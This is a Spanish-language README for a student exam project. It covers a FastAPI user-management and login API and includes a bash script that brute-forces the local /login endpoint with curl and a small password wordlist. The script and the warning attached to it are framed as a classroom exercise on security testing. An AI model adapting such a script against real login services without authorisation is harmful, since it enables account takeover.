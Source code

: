 # Practical Term Exam

Este repositorio contiene una API REST (FastAPI) para manejo básico de usuarios (CRUD) y autenticación. Incluye un script `brute.sh` pensado para pruebas locales (simula intentos de login).

---

## Contenido del repositorio

- `main.py` — implementación FastAPI con modelos en `sqlmodel` y almacenamiento en memoria (`users_db`).
- `brute.sh` — script bash que prueba múltiples contraseñas contra `http://127.0.0.1:8000/`.
- `requirements.txt` — dependencias: `fastapi`, `uvicorn`, `sqlmodel`.
- `.gitignore` — (recomendado) para evitar subir `venv/`, `__pycache__/`, etc.

---

## Estructura (actual)
```
practical-term-exam/
├── main.py
├── brute.sh
├── requirements.txt
└── (otros archivos opcionales)
```

## Requisitos y preparación

- **Python** 3.10+  
- **pip**
- **(Windows) Git Bash or WSL to run brute.sh**

Se recomienda crear un entorno virtual:

**Windows (PowerShell)**
``` bash
python -m venv venv
venv\Scripts\Activate.ps1
```
**Instalar dependencias**
``` bash 
pip install -r requirements.txt
```
**Cómo ejecutar la API**

Desde la raíz del proyecto, con el entorno virtual activado:
``` bash 
uvicorn main:app --reload --host 0.0.0.0 --port 8000
```
La API quedará accesible en: http://127.0.0.1:8000/

## ENDPOINTS DETECTADOS

- `GET /`  
  Root

- `POST /users`  
  Crear usuario — Body: `username`, `password`, `email?`, `is_active?`

- `GET /users`  
  Listar usuarios (devuelve datos "seguros" sin la contraseña)

- `GET /users/{user_id}`  
  Obtener usuario por id

- `PUT /users/{user_id}`  
  Actualizar usuario — Campos: `username`, `email`, `is_active`

- `DELETE /users/{user_id}`  
  Eliminar usuario

- `POST /login`  
  Login con `username` + `password`
  
  ## Ejemplo de login (body JSON)

```json
{ "username": "matias", "password": "matym123" }
````
## Respuesta satisfactoria actual
```json
{ "message": "login successful" }
```
## Respuesta por credenciales inválidas
```json
{ "message": "Invalid credentials" }
```
## Bruteforce / Script de prueba (`brute.sh`)

> **Advertencia:** Este script fue utilizado unicamente con fines educativos, hacer el mismo proceso con equipos de terceros seria considerado algo ilegal

### Versión original (la que viene en el repo)

```bash
API="http://127.0.0.1:8000/login"
USER="matias"

WORDLIST=(matym123 hola123 adios546 arroz123 pollo123 loco456 hello123 maty123)

attempts=0
start=$(date +%s)

for pwd in "${WORDLIST[@]}"; do
  attempts=$((attempts+1))
  resp=$(curl -s -X POST "$API" \
    -H "accept: application/json" \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"$USER\",\"password\":\"$pwd\"}")
  echo "[$attempts] Probando '$pwd' -> $resp"
  if [[ "$resp" == *"login successful"* ]]; then
    end=$(date +%s)
    echo "ENCONTRADA: password='$pwd' en $attempts intentos, $((end-start))s"
    exit 0
  fi
  sleep 0.2
done

end=$(date +%s)
echo "NO encontrada tras $attempts intentos en $((end-start))s"
exit 1
